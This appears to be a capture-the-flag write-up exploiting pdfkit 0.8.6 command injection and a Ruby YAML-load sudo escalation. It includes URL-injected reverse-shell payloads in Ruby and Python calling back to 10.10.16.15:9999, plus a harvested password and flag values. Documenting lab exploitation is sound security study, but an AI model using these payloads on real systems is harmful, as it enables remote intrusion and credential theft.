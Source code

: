 pdfkit 0.8.6 is vulnerable to command injection


setting up a python http server and using the url `http://10.10.16.15:8000/?name=#{'%20`sleep 5`'}` makes the page sleep for 5 seconds.


Trying to insert a nc and bash shell in the same space did not work.
[source for ^](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795)

``` 
http://10.10.16.15:8000/?name=#{'%20`ruby -rsocket
-e'f=TCPSocket.open("10.10.16.15",9999).to_i;exec sprintf("/bin/bash -i <&%d >&%d 2>&%d",f,f,f)'`'}  
``` 
^ this causes a connection to be made but it is dirupted immediately. Perhaps another way of getting the ruby shell?


Looking at gtfobins,  the following command (slightly manipulated) worked:
``` 
http://10.10.16.15:8000/?name=#{'%20`ruby -rsocket -e 'c=TCPSocket.new("10.10.16.15",9999);while(  cmd=c.gets);IO.popen(cmd,"r"){|io|c.print   io.read}end'`'}
``` 
However, this shell was absolutely awful. Trying 
```
http://10.10.16.15:8000/?name=#{'%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.15",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'`'}
```
instead, I got a more stable connection

cding to `~` and reading the _config_ file in the _.bundle_ directory gives the credentials:
_henry:Q3c1AqGHtoI0aXAYFH_.

SSHing into this spawns a bash shell and we can read the user.txt: e917952cd8881d6ddd96ae71978eabe6



###PRIVESC###

Looking at the sudo -l privilege of running the update.dependencies.rb, it read the dependencies.yml. I am not that well versed with yml and ruby, but I am thinking, as I can edit the dependencies.yml file, I can modify it to execute some privesc. Just not sure how to write that in Ruby, so lets find out.


From the looks of it, I think it is already trying to do tat, but fails..?

According to [this artciel](https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) the script was executed even though it also contained the error. Therefore, changing the `git_set: "id"` to `cat /root/root.txt` got the flag:
cd1a9bfdbf3389072e363de62639d2f3